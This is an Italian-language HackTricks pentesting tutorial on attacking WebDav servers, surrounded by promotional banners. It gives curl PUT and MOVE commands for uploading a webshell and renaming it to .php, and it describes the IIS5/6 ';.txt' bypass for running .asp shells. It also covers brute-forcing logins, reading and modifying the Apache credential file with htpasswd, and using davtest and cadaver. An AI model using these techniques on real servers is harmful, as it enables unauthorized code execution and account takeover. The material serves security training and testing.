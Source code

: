 # WebDav

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Usa [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) per costruire e **automatizzare flussi di lavoro** alimentati dagli **strumenti** della comunità **più avanzati** al mondo.\
Ottieni accesso oggi:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

{% hint style="success" %}
Impara e pratica il Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

Quando si tratta di un **server HTTP con WebDav** abilitato, è possibile **manipolare file** se si dispone delle **credenziali** corrette, solitamente verificate tramite **HTTP Basic Authentication**. Ottenere il controllo su un tale server comporta spesso il **caricamento e l'esecuzione di un webshell**.

L'accesso al server WebDav richiede tipicamente **credenziali valide**, con il [**bruteforce WebDav**](../../generic-hacking/brute-force.md#http-basic-auth) che è un metodo comune per acquisirle.

Per superare le restrizioni sui caricamenti di file, specialmente quelle che impediscono l'esecuzione di script lato server, potresti:

* **Caricare** file con **estensioni eseguibili** direttamente se non sono vietati.
* **Rinominare** file non eseguibili caricati (come .txt) in un'estensione eseguibile.
* **Copiare** file non eseguibili caricati, cambiando la loro estensione in una che sia eseguibile.

## DavTest

**Davtest** prova a **caricare diversi file con estensioni diverse** e **controlla** se l'estensione viene **eseguita**:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../.gitbook/assets/image (851).png>)

Questo non significa che **le estensioni .txt e .html vengano eseguite**. Questo significa che puoi **accedere a questi file** tramite il web.

## Cadaver

Puoi usare questo strumento per **connetterti al server WebDav** e eseguire azioni (come **caricare**, **spostare** o **eliminare**) **manualmente**.
```
cadaver <IP>
```
## Richiesta PUT
```
curl -T 'shell.txt' 'http://$ip'
```
## Richiesta MOVE
```
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Usa [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) per costruire e **automatizzare flussi di lavoro** facilmente, alimentati dagli **strumenti** della comunità **più avanzati** al mondo.\
Ottieni accesso oggi:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}

## Vulnerabilità IIS5/6 WebDav

Questa vulnerabilità è molto interessante. Il **WebDav** **non consente** di **caricare** o **rinominare** file con l'estensione **.asp**. Ma puoi **bypassare** questo **aggiungendo** alla fine del nome **";.txt"** e il file sarà **eseguito** come se fosse un file .asp (puoi anche **usare ".html" invece di ".txt"** ma **NON dimenticare il ";"**).

Poi puoi **caricare** la tua shell come un file ".**txt"** e **copiare/spostarlo in un file ".asp;.txt"**. Accedendo a quel file tramite il server web, esso sarà **eseguito** (cadaver dirà che l'azione di spostamento non ha funzionato, ma ha funzionato).

![](<../../.gitbook/assets/image (1092).png>)

## Credenziali post

Se il Webdav stava usando un server Apache, dovresti controllare i siti configurati in Apache. Comunemente:\
\&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

All'interno potresti trovare qualcosa come:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
Come puoi vedere, ci sono i file con le **credenziali** valide per il server **webdav**:
```
/etc/apache2/users.password
```
Dentro questo tipo di file troverai il **nome utente** e un **hash** della password. Queste sono le credenziali che il server webdav utilizza per autenticare gli utenti.

Puoi provare a **crackare** queste credenziali, o a **aggiungerne di più** se per qualche motivo vuoi **accedere** al server **webdav**:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
Per verificare se le nuove credenziali funzionano, puoi fare:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## Riferimenti

* [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Usa [**Trickest**](https://trickest.com/?utm_source=hacktricks\&utm_medium=text\&utm_campaign=ppc\&utm_content=put-method-webdav) per costruire e **automatizzare flussi di lavoro** alimentati dagli **strumenti comunitari più avanzati** al mondo.\
Ottieni accesso oggi:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=put-method-webdav" %}
